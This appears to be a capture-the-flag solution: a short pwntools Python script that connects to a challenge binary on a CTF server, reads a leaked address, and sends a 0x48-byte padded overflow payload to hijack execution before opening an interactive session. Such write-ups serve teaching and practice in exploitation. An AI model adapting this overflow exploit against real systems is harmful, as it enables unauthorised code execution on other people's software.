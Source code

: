 ## Exploit

```python
#!/usr/bin/python

from pwn import args, context, flat, gdb, process, remote

gdbscript = """
b *main+70
b *main+129
c
"""

FILE = "./pwn-patched"
HOST, PORT = "node5.buuoj.cn", 26553

context(log_level="debug", binary=FILE, terminal="kitty")


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def construct_payload(leaked_addr):
    payload = flat(b"A" * 0x48, leaked_addr)

    return payload


def main():
    target = launch()

    target.recvuntil(b"WOW:")
    leaked_addr = int(target.recvline().strip(), 16)

    payload = construct_payload(leaked_addr)

    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```
